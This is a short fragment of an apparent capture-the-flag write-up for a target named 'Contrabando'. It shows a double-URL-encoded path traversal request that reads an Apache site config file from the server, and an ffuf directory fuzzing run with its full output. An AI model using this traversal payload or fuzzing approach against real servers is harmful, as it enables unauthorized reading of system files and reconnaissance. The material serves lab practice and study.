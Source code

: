 <img width="1123" height="424" alt="image" src="https://github.com/user-attachments/assets/6d43b246-19f9-4da0-aeb1-a0f77d867d46" />

<br>

<img width="1382" height="189" alt="image" src="https://github.com/user-attachments/assets/29a0c66b-1fbd-4ff9-98d2-22f2572f2c8d" />

<br>
<br>
<h2>GET /page/%252f/etc/apache2/sites-available/000-default.conf</h2>

<p>

- VirtualHost = <code>8080</code><br>
-	ServerAdmin <code>webmaster@localhost</code><br>
- DocumentRoot <code>/var/www/html</code></p>

<img width="1056" height="548" alt="image" src="https://github.com/user-attachments/assets/b04e8b02-7924-4487-b3e0-9947c32203c7" />

<br>
<br>
<h2>ffuf</h2>
<p>

- /page/home.html/p>

```bash
:~/Contrabando# ffuf -u http://xx.xxx.xx.xxx/page/FUZZ.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 100-203

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://xx.xxx.xx.xxx/page/FUZZ.html
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 100-203
________________________________________________

home                                                                                                                                     [Status: 200, Size: 873, Words: 121, Lines: 63]
...
:: Progress: [218275/218275] :: Job [1/1] :: 2511 req/sec :: Duration: [0:04:19] :: Errors: 0 ::
```
